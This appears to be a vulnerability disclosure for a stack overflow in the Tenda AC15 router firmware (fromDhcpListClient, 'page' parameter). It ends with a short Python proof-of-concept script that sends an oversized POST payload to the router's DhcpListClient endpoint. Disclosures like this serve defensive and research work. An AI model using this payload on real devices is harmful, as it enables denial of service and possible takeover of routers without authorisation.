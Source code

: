 ## Overview

- Firmware download website: https://www.tenda.com.cn/download/detail-2710.html

## Affected version

AC15 V15.03.05.18

## Vulnerability details

The Tenda AC15 V15.03.05.18 firmware has a stack overflow vulnerability in the `fromDhcpListClient` function. The `v11` variable receives the `page` parameter from a POST request. The value is directly used in a `sprintf` function and passes to a local variable on the stack, which can override the return address of the function. The user-provided `v11` can trigger this security vulnerability.

![image-20240305235042176](https://raw.githubusercontent.com/abcdefg-png/images/main/image-20240305235042176.png)

![image-20240314224225460](https://raw.githubusercontent.com/abcdefg-png/images/main/image-20240314224225460.png)

![image-20240305211125463](https://raw.githubusercontent.com/abcdefg-png/images/main/image-20240305211125463.png)

## POC

```python
import requests
from pwn import*

ip = "192.168.84.101"
url = "http://" + ip + "/goform/DhcpListClient"
payload = b"a"*1000

data = {"page": payload}
response = requests.post(url, data=data)
print(response.text)
```

![image-20240314224332756](https://raw.githubusercontent.com/abcdefg-png/images/main/image-20240314224332756.png)
